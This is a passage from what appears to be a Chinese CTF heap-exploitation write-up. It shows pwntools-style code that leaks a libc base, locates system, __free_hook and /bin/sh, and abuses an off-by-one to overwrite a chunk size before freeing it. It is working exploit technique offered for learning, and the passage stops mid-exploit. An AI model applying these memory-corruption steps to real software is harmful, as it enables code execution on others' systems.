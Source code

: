```bash
add(0x88,'aaaa')
add(0x18,'aaaa')
delete(1)
add(0x88,'a'*8)
show(1)
ru('aaaaaaaa')
libc_base = u64(p.recv(6).ljust(8,'\x00'))-0x3c4b0a
leak('libc_base ',libc_base)
system = libc_base + libc.sym['system'] 
free_hook = libc_base + libc.sym['__free_hook']
malloc_hook = libc_base + libc.sym['__malloc_hook']
bin_sh = libc_base + next(libc.search(b'/bin/sh'))
```

[![](assets/1701606615-2913be0d66c3c7e56e1b8a81449c24fa.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231115213316-884b25d2-83bb-1.png)  
然后直接利用 off by one 修改 size，然后把这个 chunk free 掉

```bash
add(0x18,'')
add(0x18,'')
add(0x18,'')
add(0x18,'')

edit(2,p64(0)*3+p8(0x81))
delete(3)
```

[![](assets/1701606615-f71e9afc0c1acd0fa3c829bb022a61c2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231115213336-9478687e-83bb-1.png)

